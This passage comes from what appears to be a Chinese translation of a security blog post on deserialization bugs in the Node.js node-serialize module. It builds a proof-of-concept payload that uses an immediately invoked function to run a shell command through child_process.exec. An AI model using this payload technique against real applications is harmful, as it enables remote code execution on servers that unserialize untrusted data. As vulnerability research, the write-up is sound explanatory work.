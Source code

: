 Java，PHP，Ruby和Python也有着大量的反序列化问题

[Understanding PHP Object Injection](https://securitycafe.ro/2015/01/05/understanding-php-object-injection/)

[Java Deserialization Cheat Sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet)

[Rails Remote Code Execution Vulnerability Explained](http://blog.codeclimate.com/blog/2013/01/10/rails-remote-code-execution-vulnerability-explained/)

[Arbitrary code execution with Python pickles](https://www.cs.uic.edu/~s/musings/pickle/)

但是我找不到任何解释反序列化/对象的资源来解释Node.js中的注入BUG。



**Building the Payload**

我使用node-serialize version 0.0.4进行研究，为了成功利用当不可信数据传递到unserialize()函数时，执行任意代码。创建Payload的最好方法就是使用同一模块的serialize()函数。

我创建了以下JavaScript对象并将其传递给serialize()函数。



```
var y = {
rce : function(){
require('child_process').exec('ls /', function(error,
stdout, stderr) { console.log(stdout) });
},
}
var serialize = require('node-serialize');
console.log("Serialized: n" + serialize.serialize(y));
```

输出如下：

[![http://p2.qhimg.com/t0122b10cb01bb95bcf.png](https://p5.ssl.qhimg.com/t01ab453206f0762572.png)](https://p5.ssl.qhimg.com/t01ab453206f0762572.png)

现在我们有一个序列化的字符串，可以通过unserialize()函数进行反序列化，但问题是代码执行不会发生，直到你触发对应于对象的rce属性的函数。后来我想出，我们可以使用JavaScript的立即调用函数表达式（IIFE）来调用该函数。如果我们在函数体之后使用括号()，当对象被创建时，函数将被调用。 它的工作方式类似于C ++中的类构造函数。

代码：



```
var y = {
rce : function(){
require('child_process').exec('ls /', function(error,
stdout, stderr) { console.log(stdout) });
}(),
}
var serialize = require('node-serialize');
console.log("Serialized: n" + serialize.serialize(y));
```

获得以下输出

[![http://p3.qhimg.com/t011d7104da7d15cd12.png](https://p5.ssl.qhimg.com/t01e4a702b5af90d4af.png)](https://p5.ssl.qhimg.com/t01e4a702b5af90d4af.png)

